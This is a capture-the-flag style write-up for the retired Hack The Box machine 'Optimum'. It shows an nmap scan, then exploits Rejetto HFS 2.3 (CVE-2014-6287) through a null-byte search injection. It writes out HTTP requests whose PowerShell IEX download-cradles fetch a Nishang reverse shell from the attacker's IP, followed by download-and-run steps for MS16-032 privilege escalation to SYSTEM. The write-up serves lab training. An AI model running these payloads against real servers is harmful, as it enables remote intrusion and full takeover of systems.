 # Optimum

This is the write-up for the box Optimum that got retired at the 28th October 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.8    optimum.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/optimum.nmap 10.10.10.8
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page we see an application called **HttpFileServer 2.3**.

![HttpFileServer](https://kyuu-ji.github.io/htb-write-up/optimum/optimum-hfs.png)

Looking for exploits for this service we find **Rejetto HTTP File Server 2.3.x - Remote Code Execution** with the CVE number [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287).

The description is as follows:
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

Instead of using the Metasploit Module, I will exploit this vulnerability manually.

### Explaining and using the exploit

The HFS application has an internal scripting language that uses some characters like curly brackets, pipe symbols and dots. It has a regular expression that searches and replaces these characters in the Search parameter.
When we send a _NULL Byte_ in the Search query, this will terminate the regular expression but everything after the NULL Byte will not be replaced.

Before we can do this, we need to know which characters to send. We can find that out by reading the [Rejetto wiki](https://rejetto.com/wiki/index.php?title=HFS:_scripting_commands). The parameter **exec** is what we need to send to execute commands.
```markdown
Example: {.exec|notepad.}
```

Lets send a request with **%00** in the search bar, to _Burpsuite_ and modify the requests in the **Repeater**.
For testing we can send a simple `ping` command to verify that it works the way we want it to:
```markdown
GET /?search=%00{.exec|ping 10.10.14.23.} HTTP/1.1
```

The `tcpdump` on my local machine waits for connections and after sending this request it outputs the ICMP packets. We have command execution and can start a reverse shell on this box.

For this task I will use the Powershell script **Invoke-PowerShellTcp.ps1** from the **Nishang Framework** that will listen on my IP and port 9001.
```markdown
GET /?search=%00{.exec|C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Invoke-PowerShellTcp.ps1').} HTTP/1.1

# URL-encoded
GET /?search=%00{.exec|C%3a\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.23%3a8000/shell.ps1').} HTTP/1.1
```

After executing this the listener will start a reverse shell and we are the user _kostas_ on the box.

## Privilege Escalation

We search for vulnerabilities by using **Sherlock.ps1** with the _Find-AllVulns function_ to get information about hotfixes.
 ```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Sherlock.ps1')
```

It appears to be vulnerable against **MS016-032 - Secondary Logon Handle** which we will exploit with the script _Invoke-MS16032.ps1_.
```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/Invoke-MS16032.ps1')
```

This script will download another **Invoke-PowerShellTcp.ps1** that listens on port 9002 to start a new reverse shell but with elevated privileges.
After the files get downloaded and executed our listener starts and we are _NT Authority\SYSTEM_ on the box!
